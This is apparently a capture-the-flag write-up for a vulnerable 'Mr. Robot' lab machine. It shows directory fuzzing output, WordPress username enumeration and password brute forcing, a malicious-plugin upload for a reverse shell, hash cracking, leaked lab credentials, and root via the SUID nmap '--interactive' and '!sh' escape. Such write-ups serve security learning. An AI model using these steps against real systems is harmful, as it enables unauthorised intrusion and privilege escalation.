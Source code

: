 # Mr. Robot

### Users:
robot

### Credentials:

**Wordpress login:**\
 | Username: elliot, Password: ER28-0652

**Machine:**\
 | Username: robot, Password: abcdefghijklmnopqrstuvwxyz

## Port Scan:

![nmap_scan](../pictures/mr-robot/nmap_scan.png)

## Content Discovery:

### Fuzzing
**URL              : http://10.10.238.147/FUZZ**
```
Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt
Follow redirects : false
Calibration      : false
Timeout          : 10
Threads          : 40
Matcher          : Response status: 200-299,301,302,307,401,403,405,500
Filter           : Response status: 404
________________________________________________
index.php               [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 125ms]
xmlrpc.php              [Status: 405, Size: 42, Words: 6, Lines: 1, Duration: 136ms]
wp-login.php            [Status: 200, Size: 2671, Words: 115, Lines: 53, Duration: 194ms]
wp-register.php         [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 131ms]
index.html              [Status: 200, Size: 1188, Words: 189, Lines: 31, Duration: 106ms]
favicon.ico             [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 113ms]
readme.html             [Status: 200, Size: 64, Words: 14, Lines: 2, Duration: 104ms]
.htaccess               [Status: 403, Size: 218, Words: 16, Lines: 10, Duration: 107ms]
license.txt             [Status: 200, Size: 309, Words: 25, Lines: 157, Duration: 153ms]
robots.txt              [Status: 200, Size: 41, Words: 2, Lines: 4, Duration: 105ms]
wp-commentsrss2.php     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 121ms]
wp-config.php           [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 110ms]
sitemap.xml             [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 106ms]
wp-settings.php         [Status: 500, Size: 0, Words: 1, Lines: 1, Duration: 97ms]
```

**URL              : http://10.10.238.147/FUZZ/**
```
Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
Follow redirects : false
Calibration      : false
Timeout          : 10
Threads          : 40
Matcher          : Response status: 200-299,301,302,307,401,403,405,500
Filter           : Response status: 404
________________________________________________
images                  [Status: 403, Size: 216, Words: 16, Lines: 10, Duration: 107ms]
admin                   [Status: 200, Size: 1077, Words: 189, Lines: 31, Duration: 115ms]
js                      [Status: 403, Size: 212, Words: 16, Lines: 10, Duration: 102ms]
css                     [Status: 403, Size: 213, Words: 16, Lines: 10, Duration: 115ms]
wp-content              [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 262ms]
wp-includes             [Status: 403, Size: 221, Words: 16, Lines: 10, Duration: 99ms]
wp-admin                [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 527ms]
xmlrpc                  [Status: 405, Size: 42, Words: 6, Lines: 1, Duration: 468ms]
blog                    [Status: 403, Size: 214, Words: 16, Lines: 10, Duration: 100ms]
login                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 621ms]
feed                    [Status: 200, Size: 809, Words: 12, Lines: 22, Duration: 807ms]
rss                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 1390ms]
video                   [Status: 403, Size: 215, Words: 16, Lines: 10, Duration: 87ms]
image                   [Status: 200, Size: 11731, Words: 467, Lines: 170, Duration: 1536ms]
audio                   [Status: 403, Size: 215, Words: 16, Lines: 10, Duration: 115ms]
phpmyadmin              [Status: 403, Size: 94, Words: 14, Lines: 1, Duration: 116ms]
dashboard               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 1361ms]
wp-login                [Status: 200, Size: 2671, Words: 115, Lines: 53, Duration: 1388ms]
0                       [Status: 200, Size: 8341, Words: 285, Lines: 122, Duration: 1436ms]
```
### Tech Stack:
PHP/5.5.29\
WordPress version 4.3.1\
Web Server: Apache httpd

## Foothold / Privilege Escalation

### Initial Foothold
I looked in robots.txt I found an entry of “fsocity.dic” and and entry for the first flag.

![robots_file](../pictures/mr-robot/robots.png)

![dictionary_file](../pictures/mr-robot/dict.png)
- fsocity.dic turned out to be a large dictionary file with possible usernames and passwords.

I noticed there was some duplicates in fsocity.dic so I sorted it to eliminate duplicates. I used the forgot password page to try and find out if I have a valid username in the file. I used ffuf for this with the POST method and I filtered out all the lines with the count of 51 since I first tested to see what invalid output returns.

![username_enumeration](../pictures/mr-robot/possible_username.png)

I used wpscan to brute force the login page with the username elliot and for the password I used the sorted list,
Brute force attack found a valid password and I could login to the wordpress admin panel with the user elliot. In the dashboard
I notice that I could upload plugins, so using a malicious wordpress plugin script from github, I crafted a malicious plugin and uploaded it
using the dashboard.

![plugin_setup](../pictures/mr-robot/malicious_plugin_setup.png)

![plugin_upload](../pictures/mr-robot/plugin_upload.png)

After uploading I had to visit a specific .php file printed after setting up the plugin and I got a reverse shell as a service user.

#### Moving to a real user
In robot's home directory there was a file named password.raw-md5 containing his password in a hashed format.

![robots_home_directory](../pictures/mr-robot/user_home.png)

I used a tool called hashcat to crack the hash using the file I found using robots.txt and that way I was able to log in
as the user robot.

![hash_crack](../pictures/mr-robot/hash_crack.png)

![robot_user](../pictures/mr-robot/user_robot_flag.png)

#### Machine enumeration:
```
╔══════════╣ Analyzing Wordpress Files
-rwxr-x--- 1 bitnamiftp daemon 3756 Nov 14  2015 /opt/bitnami/apps/wordpress/htdocs/wp-config.php                   
define('DB_NAME', 'bitnami_wordpress');
define('DB_USER', 'bn_wordpress');
define('DB_PASSWORD', '570fd42948');
define('DB_HOST', 'localhost:3306');
define('WP_SITEURL', 'http://' . $_SERVER['HTTP_HOST'] . '/');
define('WP_HOME', 'http://' . $_SERVER['HTTP_HOST'] . '/');
define('FTP_USER', 'bitnamiftp');
define('FTP_HOST', '127.0.0.1');
```
**SUID Binaries:**
```
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```

### Privilege Escalation
As the user robot I was not allowed to run sudo on the machine, but I noticed in the SUID binaries,
nmap had a SUID bit set, meaning it was running as root.

![suid_binaries](../pictures/mr-robot/SUID_nmap_privesc.png)

To exploit this I first wanted to see if I was able to run nmap interactively and I was, so next thing
I went on gtfobins and found that using the interactive nmap shell I can elevate my privileges to root
using:
```
/usr/local/bin/nmap --interactive
nmap> !sh
```
![gaining_root](../pictures/mr-robot/root_privesc.png)


## Journal
**Malicious wordpress plugin:**\
https://github.com/wetw0rk/malicious-wordpress-plugin\
**Nmap SUID bit exploit:**\
https://gtfobins.github.io/gtfobins/nmap/#suid